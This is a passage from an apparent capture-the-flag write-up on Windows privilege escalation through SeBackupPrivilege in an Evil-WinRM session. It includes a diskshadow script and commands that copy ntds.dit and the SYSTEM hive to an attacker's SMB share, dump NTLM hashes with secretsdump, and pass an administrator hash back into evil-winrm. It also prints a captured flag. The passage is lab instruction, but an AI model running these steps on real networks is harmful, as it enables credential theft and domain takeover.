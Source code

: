 ```bash
*Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege "C:\Users\Administrator\Desktop\root.txt" C:\Temp\root.txt
*Evil-WinRM* PS C:\windows\system32\config> more C:\Temp\root.txt
30563eebb514e4677ec40d5e83d83e7d
```

This technique could also be employed to access the root flag.

```bash
*Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege "C:\Windows\ntds\ntds.dit" C:\Temp\ntds.dit
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege "C:\Windows\ntds\ntds.dit" C:\Temp\ntds.di ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
*Evil-WinRM* PS C:\windows\system32\config> 
```

However, accessing `ntds.dit` was not possible due to it being used by another process.

To work around this, the `diskshadow` utility could be used to copy the `C` volume, allowing access to `ntds.dit` from the newly created volume.

For a `DSH` script for `diskshadow` utility, an example script could be:

```bash
set context persistent nowriters
set metadata c:\Temp\nehal.cab
set verbose on
add volume c: alias nehal
create
expose %nehal% z:
```

If the script is created in `Kali`, `unix2dos` must be run on it to make it DOS compatible.

The subsequent steps involve running `diskshadow`, copying the `SYSTEM` file and `ntds.dit` from the new volume, and using `secretsdump.py` to obtain the `NTLM` hash of `administrator`, which can then be used in `evil-winrm`.

```bash
diskshadow /s c:\Temp\vss.dsh
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.16.15\s\ntds.dit
reg.exe save hklm\system \\10.10.16.15\system
secretsdump.py -system system -ntds ntds.dit LOCAL
evil-winrm -i 10.10.11.108 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

However, the `diskshadow` technique did not work on the machine for some reason. This method serves as an illustration of how `SeBackupPrivilege` can be exploited to potentially gain shell access.

# PRIVILEGE ESCALATION PART 2: SERVER OPERATORS GROUP
